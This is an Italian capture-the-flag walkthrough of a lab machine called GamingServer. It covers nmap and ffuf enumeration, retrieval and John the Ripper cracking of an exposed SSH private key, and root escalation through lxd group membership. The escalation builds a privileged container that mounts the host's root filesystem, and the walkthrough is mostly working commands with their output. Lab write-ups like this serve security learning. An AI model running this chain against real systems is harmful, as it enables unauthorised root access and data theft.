

GamingServer
Partiamo come al solito ad enumerare i servizi presenti nella macchina, usiamo nmap
| kali@kali:~/Desktop/CTF/GamingServer$ sudo nmap -sS -sV -sC -p- 10.128.168.151 -o nmap.txt
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 20:07 -0400
Nmap scan report for gamingserver.local (10.128.168.151)
Host is up (0.033s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
|
Abbiamo due servizi standard
| Servizio + porta |
Versione |
Eventuali Note |
| SSH (22) |
OpenSSH 7.6p1 |
- |
| http (80) |
Apache httpd 2.4.29 |
- |
Guardando il sito nella homepage con ispeziona pagina vediamo

Sappiamo quindi che esiste un utente john probabilmente con qualche privilegio interessante, visto che può inserire contenuto nella pagina.
Eseguiamo anche un Directory Discovery per trovare nuove pagine nascoste
| kali@kali:~$ ffuf -u http://10.128.168.151/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php,.txt,.bkp -c
about.php [Status: 200, Size: 2213, Words: 94, Lines: 96, Duration: 32ms]
index.html [Status: 200, Size: 2762, Words: 241, Lines: 78, Duration: 31ms]
robots.txt [Status: 200, Size: 33, Words: 3, Lines: 4, Duration: 30ms]
robots.txt [Status: 200, Size: 33, Words: 3, Lines: 4, Duration: 29ms]
secret [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 29ms]
server-status [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 32ms]
uploads [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 30ms]
|
Aprendo secret si trova un file secretKey che si tratta di una chiave RSA per login via SSH probabilmente.
Quini scarichiamola
| kali@kali:~/Desktop/CTF/GamingServer$ wget http://10.128.168.151/secret/secretKey
|
Analizzandola vediamo che è protetta da password
| kali@kali:~/Desktop/CTF/GamingServer$ openssl rsa -in secretKey -check -noout
Enter pass phrase for secretKey:
|
Guardando la cartella /uploads/ troviamo un file dict.lst che contiene una wordlist , proviamo a scaricarla e usare questa con john the ripper.
| kali@kali:~/Desktop/CTF/GamingServer$ john --wordlist=dict.lst hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)(
|
| kali@kali:~/Desktop/CTF/GamingServer$ john --show hash.txt
secretKey:letmein
1 password hash cracked, 0 left
|
E infatti usando come nome john e collegandoci a SSH tramite chiave RSA otteniamo la connessione con SSH
| kali@kali:~/Desktop/CTF/GamingServer$ chmod 600 secretKey
kali@kali:~/Desktop/CTF/GamingServer$ ssh john@10.128.140.250 -i secretKey
Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$
|
Trovando la prima flag nella home directory di john: a5************************7e
Guardando con uname -a notiamo una strano nome della versione del kernel
| john@exploitable:~$ uname -a
Linux exploitable 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
|
Sembra quasi che il creatore di questa macchina, voglia che sfruttiamo una vulnerabilità del Kernel Linux 4.15.0 per ottenere i privilegi di root. In particolare cercando ho trovato CVE-2018-18955 (Un difetto nelle mappature UID/GID tra i namespace utente annidati e il kernel consente a un utente locale non privilegiato di ottenere i privilegi di root.)
Guardando i file con SUID attivo troviamo proprio
| 944 40 -rwsr-xr-x 1 root root 37136 Mar 22 2019 /usr/bin/newgidmap
946 40 -rwsr-xr-x 1 root root 37136 Mar 22 2019 /usr/bin/newuidmap
|
Strada sbagliata. Guardando con comando id i gruppi dell’utente notiamo
| john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
|
Che fa parte anche dei gruppi sudo e lxd (un gestore di container su linux, una brutta copia di docker/podman) possiamo quindi creare un container con privilegi di root.
Seguiamo la guida di HackTricks per fare privesc con lxc
Scarichiamo quindi un immagine alpine per lxc attraverso uno strumento apposito
| kali@kali:~/Desktop/CTF/GamingServer$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 57, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 57 (delta 6), reused 8 (delta 4), pack-reused 42 (from 1)
Receiving objects: 100% (57/57), 3.12 MiB | 4.49 MiB/s, done.
Resolving deltas: 100% (19/19), done.
kali@kali:~/Desktop/CTF/GamingServer$ cd lxd-alpine-builder
kali@kali:~/Desktop/CTF/GamingServer/lxd-alpine-builder$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
kali@kali:~/Desktop/CTF/GamingServer/lxd-alpine-builder$ sudo ./build-alpine
|
E trasferiamo il file al server
| kali@kali:~/Desktop/CTF/GamingServer/lxd-alpine-builder$ python3 -m http.server 8001
john@exploitable:~$ wget http://192.168.131.79:8001/alpine-v3.8-x86_64-20261031_1605.tar.gz
--2026-10-31 20:06:28-- http://192.168.131.79:8001/alpine-v3.8-x86_64-20261031_1605.tar.gz
Connecting to 192.168.131.79:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2599066 (2.5M) [application/gzip]
Saving to: ‘alpine-v3.8-x86_64-20261031_1605.tar.gz’
alpine-v3.8-x86_64-20261031_1605.tar.gz 100%[====================================================================================================================>] 2.48M 1.87MB/s in 1.3s
2026-10-31 20:06:29 (1.87 MB/s) - ‘alpine-v3.8-x86_64-20261031_1605.tar.gz’ saved [2599066/2599066]
john@exploitable:~$ ls
alpine-v3.8-x86_64-20261031_1605.tar.gz user.txt
john@exploitable:~$ lxc image import ./alpine-v3.8-x86_64-20261031_1605.tar.gz --alias myimage
Image imported with fingerprint: 550dbea8a243bb77441cbaa2200e3d6c0c47c2a1f754b3c2145ec50a64d7f8c2
+------+-------+------+------+------+-----------+
john@exploitable:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
john@exploitable:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
john@exploitable:~$ lxc start mycontainer
john@exploitable:~$ lxc exec mycontainer /bin/sh
~ # whoami
root
/ # ls -la /mnt/root/root/
total 32
drwx------ 3 root root 4096 Feb 5 2020 .
drwxr-xr-x 24 root root 4096 Feb 5 2020 ..
-rw------- 1 root root 42 Feb 5 2020 .bash_history
-rw-r--r-- 1 root root 3106 Apr 9 2018 .bashrc
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
drwx------ 2 root root 4096 Feb 5 2020 .ssh
-rw------- 1 root root 1090 Feb 5 2020 .viminfo
-rw-r--r-- 1 root root 33 Feb 5 2020 root.txt
/ # cat /mnt/root/root/root.txt
*****************************
|